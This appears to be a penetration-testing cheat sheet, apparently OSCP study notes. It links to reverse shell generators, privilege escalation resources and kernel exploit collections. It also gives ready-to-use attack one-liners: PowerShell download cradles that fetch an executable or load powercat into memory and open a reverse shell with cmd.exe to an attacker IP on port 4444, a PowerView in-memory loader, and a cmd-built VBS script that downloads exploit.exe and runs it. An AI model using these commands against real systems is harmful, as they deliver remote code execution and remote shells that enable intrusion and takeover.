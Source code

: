 
## Reverse Shell Generator

https://www.revshells.com/

https://github.com/ferreirasc/oscp/tree/master/payloads

## One liner reverse shells

https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/

## Windows Privesc Additional Resources

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md

https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation

https://www.fuzzysecurity.com/tutorials/16.html

## Linux Privesc Additional Resources

https://book.hacktricks.xyz/linux-hardening/privilege-escalation

https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md

https://guif.re/linuxeop

## File Transfers Additional Resources

https://medium.com/@PenTest_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65

https://www.hackingarticles.in/file-transfer-cheatsheet-windows-and-linux/

## Precompiled Binaries / exploits

https://github.com/SecWiki/windows-kernel-exploits

https://github.com/SecWiki/linux-kernel-exploits

## Powershell Usefull Cradles to Download File

```
powershell.exe -NoP -NonI -Exec Bypass IEX "(New-Object System.Net.WebClient).DownloadFile('http://10.11.0.117/shell443.exe','shell443.exe')"
```

## Powershell Usefull Cradles to Download Script to memory and Execute it

This Example will download Powercat to memory and execute a reverse shell using Powercat without touching the disk

```
powershell.exe -NoP -NonI -Exec Bypass IEX (New-Object System.Net.Webclient).DownloadString("http://172.16.242.173/powercat.ps1"); powercat -c 172.16.242.173 -p 4444 -e cmd.exe
```

You can use this technique to download any script to memory and execute functions from it like Powerview also

```
powershell.exe -NoP -NonI -Exec Bypass IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.101.24/powerview.ps1'); Get-DomainController
```

## VBS Cradle to Download Transfer File and Execute it

Transfer exploit.exe from your kali server to the target server and execute it

```
cmd.exe /c "@echo Set objXMLHTTP=CreateObject("MSXML2.XMLHTTP")>poc.vbs&@echo objXMLHTTP.open "GET","http://192.168.119.142/exploit.exe",false>>poc.vbs&@echo objXMLHTTP.send()>>poc.vbs&@echo If objXMLHTTP.Status=200 Then>>poc.vbs&@echo Set objADOStream=CreateObject("ADODB.Stream")>>poc.vbs&@echo objADOStream.Open>>poc.vbs&@echo objADOStream.Type=1 >>poc.vbs&@echo objADOStream.Write objXMLHTTP.ResponseBody>>poc.vbs&@echo objADOStream.Position=0 >>poc.vbs&@echo objADOStream.SaveToFile "exploit.exe">>poc.vbs&@echo objADOStream.Close>>poc.vbs&@echo Set objADOStream=Nothing>>poc.vbs&@echo End if>>poc.vbs&@echo Set objXMLHTTP=Nothing>>poc.vbs&@echo Set objShell=CreateObject("WScript.Shell")>>poc.vbs&@echo objShell.Exec("exploit.exe")>>poc.vbs&cscript.exe poc.vbs"
```

